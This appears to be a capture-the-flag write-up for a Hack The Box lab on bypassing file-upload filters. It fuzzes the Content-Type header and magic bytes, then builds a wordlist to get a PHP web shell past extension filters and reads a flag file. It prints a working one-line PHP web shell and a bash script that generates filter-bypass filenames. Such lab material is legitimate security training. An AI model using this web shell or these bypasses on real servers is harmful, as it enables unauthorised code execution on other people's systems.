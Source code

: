 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- We download the wordlist and filter for image-related `content-type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Note: `/image/jpg` is not in the list.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

# Exercise

## Fuzzing the `Content-Type` Header

We performed fuzzing on the `Content-Type` header to determine which types are allowed:  
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)  
![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)  

The results revealed that the following types are permitted:  
- `image/gif`  
- `image/jpeg`  
- `image/png`  

Manually testing also confirmed that `image/jpg` is allowed.  


---

## Testing File Content Using Magic Bytes

We tested the uploaded files' content by checking their **magic bytes** to determine the permitted MIME types:  
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)  
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)  

---

## Attempting to Upload a `.php` Web Shell

We tried uploading a web shell with a `.php` extension. However, the server responded with the following error:  
**`Extension not allowed`**:  
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)  

---

## Fuzzing Whitelist with Common Web Extensions

To investigate whether any web extensions other than image extensions were allowed, we fuzzed the server with **common web extensions** from SecLists.  
Unfortunately, no additional web extensions were accepted in the whitelist:  
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)  
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)  

---

## Observations

- **Blacklist Validation:** When the server uses a blacklist, it rejects files with `.php` extensions and responds with `Extension not allowed`.  
- **Whitelist Validation:** When the server uses a whitelist, it only accepts image extensions and responds with `Only images are allowed` for any other file types.


# Extension Fuzzing with a Custom Wordlist

We will perform extension fuzzing using a custom wordlist containing various payloads designed to bypass both whitelists and blacklists. To generate this wordlist, we used the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



# Accessing Uploaded Extensions and Executing Code

We observed that several extensions could be successfully uploaded. Next, we made a request to view the uploaded files and performed fuzzing using the same wordlist. This approach also tested access to the previously uploaded files:

![Fuzzing Uploaded Files](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)

## Identifying Executable Extensions

Among all the files that were successfully uploaded and accessible (status code 200), only a few were able to interpret and execute code:

![Executable Extensions](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)

## Deploying the Web Shell

We uploaded the web shell:

![Uploading Web Shell](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Then, we accessed the previously uploaded file:

![Accessing Web Shell](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)

## Capturing the Flag

Finally, we retrieved the flag and completed the lab:

![Flag Retrieved](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)







